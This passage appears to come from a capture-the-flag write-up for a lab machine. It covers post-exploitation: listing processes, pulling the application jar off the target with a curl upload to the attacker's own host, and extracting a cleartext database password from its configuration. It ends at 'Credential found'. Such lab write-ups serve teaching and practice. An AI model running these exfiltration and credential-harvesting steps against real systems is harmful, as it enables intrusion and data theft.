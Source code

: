 From now we have a shell, we can enumerate the target host.
## Post-Exploitation

### Host Reconnaissance

We can list running processes :

```shell
ps -efH
```

This reveals a PostgreSQL service :

```text
postgres 1097 1 0 Sep27 ? 00:00:05 /usr/lib/postgresql/14/bin/postgres -D /var/lib/postgresql/14/main -c config_file=/etc/postgresql/14/main/postgresql.conf
```

In `/home` folder, there is only one user : `josh`

The jar file of the application is also available, so we can download it for analysis :

on our host :

```shell
updog --port 9090
```

On target host, upload the jar file :

```shell
curl -X POST -F 'file=@/app/cloudhosting-0.0.1.jar;filename=cloudhosting-0.0.1.jar' -F 'path=.' http://10.10.14.23:9090/upload
```

On our host, we can start by extracting jar content :

```shell
unzip cloudhosting-0.0.1.jar
```

in file BOOT-INF\classes\application.properties :

```text
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Credential found :
